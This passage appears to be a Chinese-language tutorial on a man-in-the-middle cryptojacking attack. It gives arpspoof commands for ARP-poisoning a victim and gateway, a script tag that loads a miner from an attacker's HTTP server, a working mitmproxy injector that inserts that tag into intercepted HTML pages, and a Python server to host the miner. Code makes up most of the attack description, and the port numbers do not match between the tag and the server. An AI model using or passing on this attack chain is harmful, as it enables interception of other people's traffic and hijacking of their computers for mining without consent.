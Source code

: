 如今，越来越多的服务商（网上银行，邮箱登陆）开始采用加密通信，SSL(Secure Sockets Layer 安全套接层)是一种广泛使用的技术，HTTPS、FTPS等都是建立在其基础上的.

所以要执行ARP欺骗攻击，我就将使用dsniff库.

```python
arpspoof -i interface -t ipVictim ipGateway
arpspoof -i interface -t ipGateway ipVictim
```
## 1.2 mitmproxy

需要在html页面注入代码,可以使用mitmproxy分析主机的流量，并对该流量做手脚.在这个案例中，攻击者将使用它将javascript注入html页面.
为了使这个虚拟过程简单易操作，这里在html页面中只注入一行代码，然后调用JavaScript挖矿的HTML代码行.
注入挖矿代码的流程如下所示：
```
<script src="http://httpserverIP:8080/script.js"></script>
```
## 1.3 注入器

一旦拦截了受害者的流量，就需要注入攻击者的挖矿脚本.使用mitmproxy API来完成注入.

```python
from bs4 import BeautifulSoup
from mitmproxy import ctx, http
import argparse
class Injector:
    def __init__(self, path):
        self.path = path
    def response(self, flow: http.HTTPFlow) -> None:
        if self.path:
            html = BeautifulSoup(flow.response.content, "html.parser")
            print(self.path)
            print(flow.response.headers["content-type"])
            if flow.response.headers["content-type"] == 'text/html':
                script = html.new_tag(
                    "script",
                    src=self.path,
                    type='application/javascript')
                html.body.insert(0, script)
                flow.response.content = str(html).encode("utf8")
                print("Script injected.")
def start():
    parser = argparse.ArgumentParser()
    parser.add_argument("path", type=str)
    args = parser.parse_args()
    return Injector(args.path)
```

### 1.4 HTTP服务器

正如以上你看到的，向注入器添加了一行指向HTML的代码，以调用JavaScript挖矿.所以，还需要在HTTP服务器中部署脚本文件.

为了实现javascript 加密挖矿，攻击者要在设备中部署一个HTTP服务器.这里使用Python库“http.server”：
```python
import http.server
import socketserver
import os
PORT = 8000
web_dir = os.path.join(os.path.dirname(__file__), 'miner_script')
os.chdir(web_dir)
Handler = http.server.SimpleHTTPRequestHandler
httpd = socketserver.TCPServer(("", PORT), Handler)
print("serving at port", PORT)
httpd.serve_forever()
```
